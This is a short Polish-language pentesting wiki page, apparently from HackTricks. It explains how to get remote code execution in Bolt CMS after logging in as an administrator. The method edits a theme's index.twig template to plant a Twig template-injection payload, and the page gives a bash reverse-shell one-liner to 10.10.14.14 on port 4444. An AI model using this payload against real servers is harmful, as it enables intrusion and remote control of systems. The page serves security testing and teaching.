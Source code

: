 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

Po zalogowaniu się jako administrator (przejdź do /bot, aby uzyskać dostęp do ekranu logowania), możesz uzyskać RCE w Bolt CMS:

- Wybierz `Configuration` -> `View Configuration` -> `Main Configuration` lub przejdź do ścieżki URL `/bolt/file-edit/config?file=/bolt/config.yaml`
- Sprawdź wartość motywu

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- Wybierz `File management` -> `View & edit templates`
- Wybierz bazowy motyw znaleziony w poprzednim kroku (`base-2021` w tym przypadku) i wybierz `index.twig`
- W moim przypadku znajduje się to w ścieżce URL /bolt/file-edit/themes?file=/base-2021/index.twig
- Ustaw swój ładunek w tym pliku za pomocą [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/index.html#twig-php), na przykład: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- I zapisz zmiany

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- Wyczyść pamięć podręczną w `Maintenance` -> `Clear the cache`
- Ponownie uzyskaj dostęp do strony jako zwykły użytkownik, a ładunek powinien zostać wykonany

{{#include ../../banners/hacktricks-training.md}}
